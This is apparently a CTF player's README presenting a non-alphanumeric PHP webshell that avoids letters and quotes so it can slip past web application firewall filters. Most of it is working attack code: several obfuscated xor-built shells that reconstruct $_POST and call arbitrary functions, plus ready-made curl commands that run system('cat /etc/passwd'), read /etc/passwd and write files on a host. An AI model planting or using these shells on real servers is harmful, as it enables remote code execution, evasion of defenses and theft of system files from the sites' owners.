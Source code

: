 # Non-Alphanumeric WebShell in PHP

The main goal of a php shell is that you can execute code on the server from the outside. This can happen via a normal eval shell or with a tiny shell like this:
```php
<?=`$_GET[1]`?>
```
The downside is that the most WAFs at a CTF filter alot of available chars out to make the exploitation harder.

Common chars to be blocked or filtered are 
```
"'`a-zA-Z
```

To be still able to deploy a working shell there are a few things we need to do.
At first there are already non-alphanumeric shells out in the wild but the ones i have seen had one thing in common they needed Quotation marks to create a string once to craft letters out of it.

So I thought to myself, that it would be a quite cool idea to develope a shell which could avoid that and still work the same way.
Thats the first Solution i came up with:

```php
<?=0;$_=[];$_.=[];$_=${(($_[0]^(0 .$_[1]))^(($_[0]^(6 .$_[1]))^($_[3]^(8 .$_[1])))).($_[3]^(1 .$_[1])).($_[4]^(6 .$_[1])).($_[3]^(2 .$_[1])).($_[3]^(5 .$_[1]))};$_[0]($_[1]);
```

Not optimal at all but it works, it crafts a string element at the start from an Array which results in a string with the value "Array" which then can be crafted in \_POST by the xor operator.

| Char X | Char Y | Result |
| - | - | - |
| A | 0 | q |
| A | 6 | w |
| q | w | . |
| a | 8 | Y |
| . | Y | _ |
| a | 1 | P |
| y | 6 | O |
| a | 2 | S |
| a | 5 | T |

Which resulted in \_POST and then can be used to run functions with arguments over code. (This feature is present since php7)
Like this:

```php
// $_ is $_POST
$_[0]($_[1]);
```

Thats quite cool but its so fucking huge so i tough i would optimize the hell out of it. So here is my Minified version of it.

```php
<?=0;$_=[]..1;$_=${$_[6].$_[3].$_[4].$_[3].$_[3]^($_^$_[5]).+1625};$_[0]($_[1]);
```

So you can send a request such as ```0=system&1_=cat /etc/passwd```

The downside is that if you dont have access to the system function you got no return values
so here is another slightly bigger variation of the shell which will print the result of a function.

```php
<?=0;$_=[]..1;$_=${$_[6].$_[3].$_[4].$_[3].$_[3]^($_^$_[5]).+1625};$_[0]($_[1]($_[2]));
```

So you can send a request such as ```0=print_r&1=file_get_contents&2_=/etc/passwd```

Here are small curl snippets for you lazy folks to work with the shell :D

```bash
curl https://host.ctf.com/shell.php -X POST -F "0=system" -F "1=cat /etc/passwd" # Shell 1
curl https://host.ctf.com/shell.php -X POST -F "0=print_r" -F "1=file_get_contents" -F "2=/etc/passwd" # Shell 2
```

The full tryhard shell can be archived with this snipped:
```php
<?=0;$_=[]..1;$_=${$_[6].$_[3].$_[4].$_[3].$_[3]^($_^$_[5]).+1625};$_[0]($_[1]($_[2], $_[3]));
```
With this setup we can run any function with as much arguments as we like.

```bash
curl https://host.ctf.com/shell.php -X POST -F "0=print_r" -F "1=call_user_func_array" -F "2=file_put_contents" -F "3[]=hello.txt" -F "3[]=testcontent"
```


Cli-Ish over and out.
PS: Checkout our cool team page https://pwnprophecy.tk)
